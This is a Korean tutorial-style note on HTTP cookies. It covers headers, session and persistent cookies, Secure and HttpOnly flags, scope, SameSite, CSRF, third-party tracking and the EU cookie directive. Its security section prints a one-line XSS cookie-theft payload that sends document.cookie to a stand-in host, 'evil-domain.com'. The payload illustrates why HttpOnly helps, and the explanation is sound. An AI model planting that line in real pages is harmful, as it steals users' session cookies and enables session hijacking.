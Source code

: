 # Cookie(쿠키)

쿠키는 서버가 클라이언트에 전송하는 데이터 조각이다. 브라우저는 HTTP 쿠키를 저장해 놓았다가 동일한 서버에서 요청 시 저장된 데이터를 함께 전송한다.

이는 동일한 브라우저에서 들어왔는지 아닌지를 판단할 때 주로 사용한다. 

많은 사이트에서 보이는 로그인 유지 기능을 구현할 때 사용이 가능하다. ( **stateless HTTP 프로토콜**에서 상태 정보를 기억시켜줌)

쿠키를 사용하는 목적 크게 3가지로 나타낼 수 있다.

1. **세션 관리 (Session management)** : 서버에 저장해야 할 로그인, 장바구니 등의 정보관리
2. **개인화 (Personalization)** : 사용자 선호, 테마를 저장
3. **트래킹 (Tracking)** : 사용자 행동을 기록하고 분석하는 용도(흔히 광고에 사용)

크롬을 기준으로 **개발자 도구 > Application > Cookies** 에서 볼 수 있다.

HTTP 요청을 수신할 때, 서버는 응답과 함께 `Set-Cookie` 헤더를 전송할 수 있다.

쿠키는 보통 브라우저에 의해 저장되며 그 후에는 같은 서버에 의해 만들어진 요청의 `Cookie HTTP` 헤더 안에 포함되어 전송된다. 

**만료일, 지속시간** 설정이 가능하며, 만료되면 쿠키를 보내지 않는다.

추가로 특정 Domain, Path도 설정할 수 있으며, 이를 통해서 쿠키가 보내지는 것을 제한할 수 있다.

`Set-Cookie HTTP` 응답 헤더는 서버로부터 사용자 에이전트로 전송됩니다.

`Set-Cookie: <cookie-name>=<cookie-value>`

서버 헤더는 클라이언트에게 쿠키를 저장하라고 전달한다.

```text
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: snyung_cookie=snyung

[page content]
```

서버로 전송되는 모든 요청과 함께, 브라우저는 Cookie 헤더를 사용하여 서버로 이전에 저장했던 모든 쿠키를 보낸다.

```text
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: snyung_cookie=snyung
```

### 세션 쿠키

위에서 생성된 쿠키는 세션 쿠키이다. 

위의 경우는 **Expires** 또는 **Max-Age**를 명시하지 않으면 브라우저가 종료되면서 삭제된다. 

그러나 브라우저는 세션 복구를 할 수 있다. 세션 복구 기능을 사용하게 되면 브라우저가 닫히지 않았던 것처럼 세션 쿠키들을 지속해서 사용 가능한 것처럼 만든다.

### 영속적인 쿠키

클라이언트가 닫힐 때 만료되는 대신에 영속적인 쿠키는 명시된 날짜(Expires)가 되거나, 명시한 기간(Max-Age) 이후에 만료된다.

```text
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

### Secure과 HTTPOnly 쿠키

Secure 쿠키는 HTTPS 프로토콜 상에서 암호화된 요청일 경우에만 전송된다. Secure라도 민감한 정보를 가지고 있다면 쿠키에 저장하면 안 된다.

본질적으로 안전하지 않고 실질적인 보안을 제공하지 않기 때문이다.

**Cross-site Scripting(XSS)** 공격 방지를 위해 HttpOnly 쿠키는 Javascript의 `Document.cooke` API에 접근할 수 없다. 서버에게 전송되기만 한다. 

예를 들어 서버 쪽에서 지속되고 있는 세션의 쿠키는 JavaScript를 사용할 필요성이 없기 때문에 HttpOnly 플래그가 설정될 것이다.

```text
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

### 쿠키의 스코프

Domain, Path 디렉티브는 쿠키의 스코프를 어떤 URL에 쿠키가 보내져야 하는지 정의한다.

Domain은 쿠키가 전송할 호스트들을 명시한다. 명시되지 않았다면, 현재 문서 위치의 호스트 일부를 기본값으로 한다. 도메인이 명시되면 서브도메인들은 항상 포함된다.

`Domain=modilla.org`라고 설정되면, 쿠키들은 `developer.mozilla.org`와 같은 서브도메인에 포함되게 된다.

Path는 Cookie 헤더를 전송하기 위하여 요청되는 URL 내에 반드시 존재해야 하는 URL 경로이다. `%x2F ("/")` 문자는 디렉티브 구분자로 해석되며 서브 디렉토리들과 잘 매치될 것이다.

`Path=/docs`라고 설정되면, 다음의 경로들도 같이 매치가 된다.

- `/docs`
- `/docs/Web/`
- `/docs/Web/HTTP`

### SAMESITE 쿠키

SAMESITE 쿠키는 쿠키가 cross-site 요청과 함께 전송되지 않게 만들어, cross-site 요청 위조 공격(CSRF)에서 보호하는 방법이다. SAMESITE 쿠키는 여전히 실험 중이며 모든 브라우저에 의해 아직 제공되지 않는다.

### document.cookie를 사용한 자바스크립트 접근

새로운 쿠키들은 `document.cookie`를 사용해서 만들 수 있으며, HttpOnly 플래그가 설정되지 않은 경우 기본쿠키들은 자바스크립트로부터 잘 접근될 수 있다.

```js
document.cookie = "snyung_cookie=snyung"; 

console.log(document.cookie); 
// logs "snyung_cookie=snyung; "
```

자바스크립트에서 이용 가능한 쿠키들은 XSS를 통해 감청될 수 있다.

## 보안

기밀, 민감한 정보는 전체 메커니즘을 본질적으로 위험하게 만들기 때문에 HTTP 쿠키 내에 저장되거나 전송되면 안 된다.

### 세션 하이재킹과 XSS

쿠키는 웹 애플리케이션에서 사용자와 그들의 인증된 세션을 식별하기 위해 사용되고 있다. 

쿠키를 가로채는 것은 인증된 사용자의 세션 하이재킹으로 이어질 수 있다.

쿠키를 가로채는 일반적인 방법은 소셜네트워크, 애플리케이션 내 XSS 취약점을 이용하는 것을 포함한다.

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

HttpOnly 쿠키 속성은 자바스크립트를 통해 쿠키값에 접근하는 것을 막아 공격이 안 일어나도록 도움을 준다.

### Cross-Site 요청 위조(CSRF)

은행 계좌에 로그인하고 당신의 쿠키가 여전히 유효하다면, 해당 이미지를 포함하고 있는 HTML을 로드하자마자 돈이 송금될 것입니다. 이런 일들이 벌어지는 것을 방지하기 위한 몇 가지 기술이 있다.

- [XSS](https://developer.mozilla.org/ko/docs/Glossary/XSS)와 마찬가지로, 입력 필터링은 중요한 문제이다.
- 모든 민감한 동작에 필수로 요구되는 확인 절차가 항상 수행되도록 한다.
- 민감한 동작에 사용되는 쿠키는 짧은 수명만 갖도록 한다.

## 트래킹과 프라이버시

### 서드파티 쿠키

쿠키는 그와 관련된 도메인을 가진다. 이 도메인이 당신이 현재 보고 있는 페이지의 도메인과 동일하다면, 그 쿠키는 퍼스트파티 쿠키라고 불린다. 만약 도메인이 다르다면, 서드파티 쿠키라고 불린다. 퍼스트파티 쿠키가 그것을 설정한 서버에만 전송되는 데 반해, 웹 페이지는 다른 도메인의 서버상에 저장된 이미지 혹은 컴포넌트를 포함할 수 있다. 

서드파티 컴포넌트를 통해 전송되는 쿠키들을 서드파티 쿠키라고 부르며 웹을 통해 공과와 트래킹에 주로 사용된다. 

대부분의 브라우저은 기본적으로 서드파티 쿠키를 따르지만, 그것을 차단하는데 이용되는 애드온들이 있다. 

서드파티 쿠키를 공개하고 있지 않다면, 쿠키 사용이 밝혀질 경우 소비자 신뢰를 잃을 수 도 있다.

명백한 공개는 쿠키 발견과 관련된 모든 부정적인 효과를 없애는 경향이 있다. 어떤 국가들은 쿠키에 관한 법률도 가지고 있다.

### Do-Not-Track

쿠키 사용에 대한 합법적이거나 기술적인 요구사항은 없지만, DNT 헤더는 웹 애플리케이션이 트래킹 혹은 개인 사용자의 croos-site 사용자 트래킹 모두를 비활성화하는 신호로 사용될 수 있다. 좀 더 자세한 내용은 DNT 헤더를 참고하면 된다.

### EU 쿠키 디렉티브

EU 전역의 쿠키에 대한 요구사항은 유럽 의회의 **Directive 2009/136/EC** 에 정의되어 있으며 2011년 5월 25일에 발효되었다. 디렉티브는 그 자체로 법은 아니지만, 디렉티브의 요구사항을 만족시키는 법을 제정하려는 EU 회원국들을 위한 요구사항이다. 

실제 법들은 국가마다 다를 수 있다.

EU 디렉티브는 컴퓨터, 모바일 폰 혹은 다른 기기들에서 누군가가 어떤 정보든지 저장하거나 검색하기 전에, 사용자는 그렇게 하기 위해 사전 동의해야만 한다는 내용입니다. 많은 웹 사이트들은 사용자가에게 쿠키 사용에 대한 내용을 알려준 뒤에 배너들을 추가할 수 있습니다.

### 좀비 쿠키와 EverCookie

쿠키에 대한 좀 더 급진적인 해결책은 삭제 이후에 다시 생성되는 좀비 쿠키 혹은 "Evercookies"며 의도적으로 영원히 제거하는 것이 어려운 쿠키입니다. 그들은 쿠키가 존재 여부와 관계없이 그들 자신을 다시 만들어내기 위해

[웹 스토리지 API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API), Flash 로컬 공유 객체 그리고 다른 기술들을 사용하고 있다.